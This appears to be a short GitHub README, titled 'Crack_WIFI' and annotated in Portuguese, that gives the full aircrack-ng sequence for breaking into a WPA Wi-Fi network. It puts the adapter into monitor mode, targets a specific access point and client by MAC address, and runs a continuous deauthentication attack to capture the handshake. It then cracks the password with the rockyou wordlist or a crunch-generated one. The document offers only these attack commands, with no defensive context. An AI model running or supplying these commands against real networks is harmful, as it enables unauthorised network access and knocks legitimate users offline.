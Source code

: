 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br>
<b> DEVE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A COLETA  </b> <br>
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B captura.cap  <br>
<br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
Parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor sinal.  <br>
